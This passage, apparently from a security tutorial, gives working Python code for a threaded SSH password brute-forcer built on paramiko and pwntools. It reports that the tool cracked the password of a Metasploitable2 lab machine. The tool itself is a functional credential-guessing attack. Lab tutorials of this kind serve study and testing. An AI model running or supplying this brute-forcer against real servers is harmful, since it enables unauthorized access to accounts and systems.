```python
def test_password(password):
    global attempts, found
    if found:
        return None

    try:
        attempts += 1
        print(f"[*] [{attempts}] Connecting to {host} with password: '{password}'")
        response = ssh(host=host, user=username, password=password, timeout=1)

        if response.connected():
            found = True
            print(f"[+] [>] Valid password found: '{password}'!")
            response.close()
            return password
        response.close()
    except (paramiko.ssh_exception.AuthenticationException, paramiko.ssh_exception.SSHException, EOFError):
        pass

    return None

# new wordlist function
try:
    with open(wordlist_path, "r") as password_list:
        passwords = [line.strip() for line in password_list]
except FileNotFoundError:
    log.error(f"[!] Wordlist file not found: {wordlist_path}")
    exit(1)

# threaded password testing
with ThreadPoolExecutor(max_threads) as executor:
    futures = {executor.submit(test_password, password): password for password in passwords}
    for future in as_completed(futures):
        result = future.result()
        if result:
            break

# final message
log.info("[*] Passwordlist exhausted!")
```

![Screenshot](picture20.png){: width="972" height="589"} 

The update is successful, we can see the password was found and the program is working as expected. This code can still be improved, but it is a good starting point for a simple SSH brute force tool! Using the password to log into Metasploitable2, we can see the successful login message:

![Screenshot](picture21.png){: width="972" height="589"} 

## Conclusion


[^1]: Source: [Python Documentation](https://docs.python.org/3/)
[^2]: Source: [pwntools](https://docs.pwntools.com/en/stable/)
[^3]: Source: [paramiko](https://docs.paramiko.org/en/stable/)